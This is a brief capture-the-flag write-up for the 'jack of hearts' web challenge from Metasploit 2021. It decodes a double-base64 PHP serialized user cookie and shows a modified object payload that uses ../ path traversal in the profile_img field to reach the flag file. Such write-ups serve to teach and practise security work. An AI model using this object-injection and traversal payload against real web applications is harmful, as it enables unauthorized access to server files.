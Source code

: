 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | jack of hearts Writeup
desc: Check out our writeup for jack of hearts for Metasploit 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: jack_of_hearts
challenge: jack of hearts
tags: "web, twh, php object injection"
date: 2021-12-08T00:00:00+00:00
last_modified_at: 2021-12-08T00:00:00+00:00
---
```



> Solved By : thewhiteh4t

```
Port : 20022
```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:23:"/var/www/html/guest.png";
}
```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";
}
```

![](https://i.imgur.com/JGNO34j.png)